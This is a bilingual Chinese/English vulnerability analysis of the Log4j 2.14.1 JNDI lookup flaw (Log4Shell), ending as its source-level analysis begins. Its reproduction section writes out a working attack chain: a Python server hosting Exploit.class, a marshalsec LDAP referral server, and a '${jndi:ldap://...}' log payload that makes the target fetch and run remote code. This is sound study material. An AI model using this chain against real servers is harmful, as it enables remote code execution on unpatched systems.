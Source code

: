 ```
#OKay2(无包)
#问题代码
#把Exploit.class文件复制到需要下载的目录下(必须是http web服务器的根目录)

#准备工作
python -m SimpleHTTPServer 8888 #python3 #必须和Exploit.class在同级目录
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"

#输出格式
LOG.error("${jndi:ldap://10.201.0.170:1389/#Exploit}”);

```

[#OKay1(With)]:#
[#Problematic Code]:#
[#Copy the full path of the com/github/test/Exploit.class file to the directory to be downloaded (must be the root directory of the http web server)]:#
[#ready to work]:#
[python -m SimpleHTTPServer 8888 #python3 #Must be in the same root directory as Exploit.class ]:#
[#Output Format]:#
[#OKay2(Without)]:#
[#Problematic Code]:#
[#Copy the Exploit.class file to the directory to be downloaded ( must be the same root directory of the http web server ) ]:#
[#Ready to work]:#
[python -m SimpleHTTPServer 8888 #python3 #Must be in the same root dirctory Exploit.class]:#
[#Output Format]:#

# 漏洞分析

[Vulnerability Analysis]:#

&nbsp;&nbsp;&nbsp;&nbsp;现在我们从运行时的堆栈中来分析下源码类中大致的调用逻辑,我将从`log.error(message)`方法去一步步分析问题(`fatal`类似).我只会说下主要的类和代码片段,我使用的`logo-core`是`2.14.1`的版本,其他版本会有一点差异,但是核心漏洞的执行的代码逻辑是一样的.我会跳过一些方法,主要还是分析一些重要步骤.
`org.apache.logging.log4j.core.pattern.MessagePatternConverter#format`


[&nbsp;&nbsp;&nbsp;&nbsp;Now let's analysis general calling logic in the source code class the runtime stack, i will analysis the problem step by step from the `log.error(message)` method (`fatal` is similar). I will only talk about the main classes and code snippets. The `logo-core` i use is version `2.14.1`. Other versions will be slightly differenet, but the code logic of the core vulnerability execution is the same. I will skip some nethods. Mainly analyze some important steps. ]:#
[`org.apache.logging.log4j.core.pattern.MessagePatternConverter#format`]:#


<center>